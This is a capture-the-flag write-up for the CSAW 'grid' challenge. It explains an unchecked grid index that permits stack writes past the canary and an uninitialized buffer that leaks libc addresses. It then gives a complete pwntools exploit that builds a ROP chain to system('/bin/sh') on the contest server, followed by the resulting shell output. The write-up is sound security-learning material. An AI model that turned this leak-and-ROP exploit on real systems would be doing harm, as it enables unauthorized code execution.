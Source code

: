 ## Challenge description

***After millions of bugs, all my homies hate C.***

We are given a C++ binary, along with libc and libstdc files.

## Initial analysis

The mitigations enabled on the binary were as follows:

```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

On reversing the binary, we found out that it had a 10x10 grid, and the binary had two main functions: one to insert a character into the grid, and one to display the grid. A loop was also present, which allowed us to insert/display values 100 times.

```text
shape> a
loc> 0 0
placing a at 0, 0
shape> d
Displaying
a!`�!
`O�%}
��B��#

-��#��
%}��f��
#s�%}�
>Z��#
D�
%}�H�%}
```

## Vulnerability

After reversing, it was pretty clear that there was no index check on the `insert` function, allowing us to insert at any location. Also the `display` function copied our current grid onto the stack, thus allowing us to potentially overwrite any value on the stack.

```cpp
for ( x = 0; x <= 99; ++x )
{
    std::operator<<<std::char_traits<char>>(&std::cout, "shape> ");
    std::operator>><char,std::char_traits<char>>(&std::cin, &v10);
    if ( v10 == 100 )
    {
        sub_400A57();
        for ( i = a1; i; i = *(_QWORD *)(i + 8) ) //Display function
            *((_BYTE *)&savedregs + 10 * *(unsigned __int8 *)(i + 1) + *(unsigned __int8 *)(i + 2) - 112) = *(_BYTE *)i;
        std::operator<<<std::char_traits<char>>(&std::cout, "Displaying\n");
        for ( j = 0; j <= 9; ++j )
        {
            for ( k = 0; k <= 9; ++k )
                std::operator<<<std::char_traits<char>>(&std::cout, (unsigned int)*((char *)&savedregs + 10 * j + k - 112));
            std::operator<<<std::char_traits<char>>(&std::cout, "\n");
        }
    }
    else //Insert function
    {
        std::operator<<<std::char_traits<char>>(&std::cout, "loc> ");
        v1 = std::istream::operator>>(&std::cin, &v11);
        std::istream::operator>>(v1, &v12);
        v2 = std::operator<<<std::char_traits<char>>(&std::cout, "placing ");
        v3 = std::operator<<<std::char_traits<char>>(v2, (unsigned int)v10);
        v4 = std::operator<<<std::char_traits<char>>(v3, " at ");
        v5 = std::ostream::operator<<(v4, v11);
        v6 = std::operator<<<std::char_traits<char>>(v5, ", ");
        v7 = std::ostream::operator<<(v6, v12);
        std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
        v8 = operator new(0x10uLL);
        sub_400E1E(v8, (unsigned int)v10, (unsigned __int8)v11, (unsigned __int8)v12);
        v16 = v8;
        sub_400E62(v14, v8);
        v14 = v16;
    }
}
```

From this, it was evident that we could write one character at a time onto an arbitrary location on the stack, thus allowing us to potentially overwrite both the return address, and the loop checker variable. This also allows us to bypass the canary, and directly overwrite the return address.

On further examination of the stack during the display function, it was obvious that the grid was not initialized, so displaying the grid allowed us to leak addresses off the stack. 

Great! We got a libc leak, all that was left was to calculate the grid offsets (as it was 10x10, and addresses are 8 bytes long), and our exploit was complete!

## Exploitation

The plan for the exploit was as follows:

+ Leak libc addresses off the stack using `display`
+ Overwrite the return address byte-by-byte with our ropchain (to call `system("\bin\sh")`)
+ Overwrite the checking variable with a value greater than 100 (0x64), to exit the loop
+ Use `display` to push the new grid onto the stack, completing the overwrite

```python
from pwn import *

env={'LD_PRELOAD' : './libc.so.6 ./libstdc.so.6.0.25'}
#r = process("./grid", env = env)
r=remote("pwn.chal.csaw.io",5013)

reu = lambda a : r.recvuntil(a)
sla = lambda a,b : r.sendlineafter(a,b)
sl = lambda a : r.sendline(a)
rel = lambda : r.recvline()
sa = lambda a,b : r.sendafter(a,b)
re = lambda a : r.recv(a)

def write(data1, data2):
    sla("shape> ",data1)
    sla("loc> ",data2)

def display():
    sla("shape> ","d")
    s = ""
    rel()
    for i in range(10):
        s+=rel().replace("\n","")
    return s

if __name__ == "__main__":
    leaks = []
    out = display()
    for i in range(0,len(out)-8,8):
        leaks.append(u64(out[i:i+8]))
    leak = leaks[3]
    log.info("Leak: " + hex(leak))
    libc_base = leak - 0x4ec5da
    log.info("Libc base: " + hex(libc_base))
    one_gadget = libc_base + 0x10a45c
    system = libc_base + 0x4f4e0
    log.info("System: " + hex(system))
    binsh = libc_base + 0x1b40fa
    pop_rdi = 0x400ee3
    pop_r1415 = 0x400ee0

    write(chr(int("0x"+hex(pop_rdi)[-2:],16)),"20 0")
    write(chr(int("0x"+hex(pop_rdi)[-4:-2],16)),"20 1")
    write(chr(int("0x"+hex(pop_rdi)[-6:-4],16)),"20 2")

    write(chr(int("0x"+hex(binsh)[-2:],16)),"20 8")
    write(chr(int("0x"+hex(binsh)[-4:-2],16)),"20 9")
    write(chr(int("0x"+hex(binsh)[-6:-4],16)),"21 0")
    write(chr(int("0x"+hex(binsh)[-8:-6],16)),"21 1")
    write(chr(int("0x"+hex(binsh)[-10:-8],16)),"21 2")
    write(chr(int("0x"+hex(binsh)[-12:-10],16)),"21 3")

    write(chr(int("0x"+hex(pop_r1415)[-2:],16)),"21 6")
    write(chr(int("0x"+hex(pop_r1415)[-4:-2],16)),"21 7")
    write(chr(int("0x"+hex(pop_r1415)[-6:-4],16)),"21 8")
    write(chr(int("0x00",16)),"21 9")
    write(chr(int("0x00",16)),"22 0")
    write(chr(int("0x00",16)),"22 1")

    write(chr(int("0x"+hex(system)[-2:],16)),"24 0")
    write(chr(int("0x"+hex(system)[-4:-2],16)),"24 1")
    write(chr(int("0x"+hex(system)[-6:-4],16)),"24 2")
    write(chr(int("0x"+hex(system)[-8:-6],16)),"24 3")
    write(chr(int("0x"+hex(system)[-10:-8],16)),"24 4")
    write(chr(int("0x"+hex(system)[-12:-10],16)),"24 5")

    write("z","14 1")
    display()
    log.info("Write complete!")
    r.interactive()
```

## Flag

Running this exploit gives us the flag!

```console
d4rk_kn1gh7 @ BatMobile  python grid.py
[+] Opening connection to pwn.chal.csaw.io on port 5013: Done
[*] Leak: 0x7f40890395da
[*] Libc base: 0x7f4088b4d000
[*] System: 0x7f4088b9c4e0
[*] Write complete!
[*] Switching to interactive mode
$ ls
flag.txt
grid
$ cat flag.txt
flag{but_4ll_l4ngu4g3s_R_C:(}
```